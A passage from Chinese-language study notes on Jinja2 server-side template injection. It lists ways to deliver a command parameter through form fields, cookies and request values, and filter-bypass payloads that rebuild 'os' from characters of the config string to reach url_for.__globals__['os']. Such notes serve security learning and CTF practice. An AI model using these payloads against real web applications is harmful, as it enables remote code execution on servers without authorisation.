 ## 2.request.form.cmd配合from提交

![image-20240513161046099](SSTI/image-20240513161046099.png)

## 3.request.cookies.cmd配合cookie

![image-20240513162359073](SSTI/image-20240513162359073.png)

## 4.也可以使用values获取所有参数

request.values.cmd

## 5.字符串拼接绕过

```
(config.__str__()[2])='o'
(config.__str__()[42])='s'

?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
等于
?name={{url_for.__globals__['os']}}
```

## 6.过滤器拼接

```
(()|select|string)[24]
```
